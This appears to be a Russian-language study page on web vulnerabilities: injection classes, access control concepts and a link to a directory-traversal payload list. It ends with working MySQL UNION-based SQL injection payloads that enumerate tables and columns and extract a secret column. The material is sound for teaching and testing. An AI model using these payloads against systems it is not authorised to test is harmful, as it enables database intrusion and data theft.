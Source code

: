 ## Уязвимости инъекции команд ОС

К подобным уязвимостям относятся:  
- Уязвимости небезопасной десериализации
- Уязвимости внедрения шаблонов на стороне сервера SSTI
- Уязвимости SQL инъекции
- Уязвимости переполнения буфера / кучи / стека
- Множественные случаи проблем и ошибок реализации, возникающих при работе с запуском процессов и работе с терминальной оболочкой

## Уязвимости контроля доступа

В контексте веб-приложений контроль доступа зависит от аутентификации и управления сеансами:

- Аутентификация идентифицирует пользователя и подтверждает, что он является тем, за кого себя выдает.
- Управление сеансом идентифицирует, какие последующие HTTP-запросы выполняются тем же самым пользователем.
- Управление доступом определяет, разрешено ли пользователю выполнять действия, которые он пытается выполнить.

С точки зрения пользователя, контроль доступа можно разделить на следующие категории:

- Вертикальный контроль доступа (Insecure Function Level Access Control (IFLAC)).
- Горизонтальный контроль доступа (Небезопасные прямые ссылки на объекты (IDOR)).
- Контекстно-зависимый контроль доступа.

## Уязвимости разграничения доступа к каталогам

Тестовые векторы атаки: `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal`  

## Уязвимости SQL-инъекции

Уязвимости SQL-инъекций могут приводить к:

- Извлечению данных и возможности исследования базы данных
- Модификации информации в базе данных (удалению, добавлению, изменению)
- Обходу логики
- Обходу механизмов авторизации и аутентификации
- Чтению файлов ОС
- Выполнению команд ОС
- Отказу в обслуживании

Техники: 
- Получение количества колонок таблицы  
`2 order by N`
- Узнать порядок вывода значений колонок из таблицы  
`-1 UNION SELECT 1,2,3,4,5,6,7,8 -- -`
- Получение метаданных из специфичной для MySQL таблицы `INFORMATION_SCHEMA`  
`-1 UNION SELECT 1,2,3,4,TABLE_NAME,6,7,8 FROM INFORMATION_SCHEMA.tables -- -`
- Получение списка всех таблиц с помощью функции `GROUP_CONCAT`  
`-1 UNION SELECT 1,2,3,4,GROUP_CONCAT(TABLE_NAME, '-'),6,7,8 FROM INFORMATION_SCHEMA.tables -- -`
- Получение списка колонок таблицы  
`-1 UNION SELECT 1,2,3,4,GROUP_CONCAT(COLUMN_NAME, '-'),6,7,8 FROM INFORMATION_SCHEMA.columns WHERE table_name='secret_table' -- -`
- Получение значения из другой таблицы   
`-1 UNION SELECT 1,2,3,4,secret_column,6,7,8 FROM secret_table -- -`
